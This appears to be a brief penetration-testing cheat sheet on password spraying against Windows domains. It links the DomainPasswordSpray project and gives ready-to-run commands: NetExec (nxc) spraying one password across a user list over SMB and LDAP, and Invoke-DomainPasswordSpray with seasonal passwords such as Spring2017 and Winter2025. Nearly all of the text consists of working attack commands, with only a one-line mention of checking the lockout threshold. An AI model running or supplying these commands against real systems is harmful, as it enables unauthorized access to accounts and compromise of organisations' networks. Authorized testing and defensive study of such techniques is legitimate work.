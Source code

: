 # Password Spraying
[DomainPasswordSpray Project](https://github.com/dafthack/DomainPasswordSpray)
Check or confirm lockout threshold
## nxc
Test a single password value with a list of user names
SMB Example:
```
nxc smb 10.0.2.15 -u users.txt -p Password1 --continue-on-success
```
LDAP Example:
```
nxc ldap 10.0.2.15 -u users.txt -p Password1 --continue-on-success
```
## DomainPasswordSpray
```
. .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Spring2017
```
```
Invoke-DomainPasswordSpray -UserList .\users.txt -Password Winter2025 -Verbose
```

